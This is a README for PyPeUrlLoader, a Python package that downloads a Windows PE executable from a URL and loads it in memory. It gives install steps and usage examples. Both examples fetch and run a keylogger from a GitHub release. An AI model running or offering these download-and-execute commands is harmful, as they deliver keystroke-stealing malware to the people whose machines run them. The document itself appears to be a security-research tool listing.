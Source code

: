 ![PyPeUrlLoader Logo](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader_small.png "PyPeUrlLoader logo")

# PyPeUrlLoader

## Description

This package uses PyPeLoader to load a PE program from a HTTP server
(from an URL).

## Requirements

This package require:

 - python3
 - python3 Standard Library
 - PyPeLoader >= 1.0.0

## Installation

### Pip

```bash
python3 -m pip install PyPeUrlLoader
```

### Git

```bash
git clone "https://github.com/mauricelambert/PyPeUrlLoader.git"
cd "PyPeUrlLoader"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

## Usages

### Command line

```bash
PyPeUrlLoader              # Using CLI package executable
python3 -m PyPeUrlLoader   # Using python module
python3 PyPeUrlLoader.pyz  # Using python executable
PyPeUrlLoader.exe          # Using python Windows executable

PyPeUrlLoader https://github.com/mauricelambert/NimKeylogger/releases/download/v0.0.1/Keylogger.exe keylogger
PyPeUrlLoader https://github.com/mauricelambert/NimKeylogger/releases/download/v0.0.1/Keylogger.exe keylogger C:\Windows\Temp\keylogger.exe
```

## Links

 - [Pypi](https://pypi.org/project/PyPeUrlLoader)
 - [Github](https://github.com/mauricelambert/PyPeUrlLoader)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.exe)

## License

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
